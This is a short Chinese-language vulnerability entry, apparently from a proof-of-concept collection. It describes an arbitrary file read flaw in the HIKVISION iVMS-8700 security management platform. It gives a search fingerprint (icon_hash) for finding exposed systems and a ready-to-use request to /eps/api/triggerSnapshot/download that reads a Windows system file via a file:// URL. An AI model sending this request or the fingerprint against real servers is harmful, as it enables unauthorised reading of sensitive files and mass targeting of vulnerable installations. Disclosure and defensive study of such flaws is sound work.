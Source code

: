 # HIKVISION iVMS-8700综合安防管理平台 download 任意文件下载漏洞

## 漏洞描述

HIKVISION iVMS-8700综合安防管理平台存在任意文件读取漏洞，攻击者通过发送特定的请求包可以读取服务器中的敏感文件获取服务器信息

## 漏洞影响

<a-checkbox checked>HIKVISION iVMS-8700综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="-911494769"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637649859645-abee2ae8-c4e5-46a1-b50e-54f9b7e7c019.png)

验证POC， token 为 Url md5

```php
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1685329799397-00a22589-5e0f-43a3-a7c9-ae17687c5dbb.png)
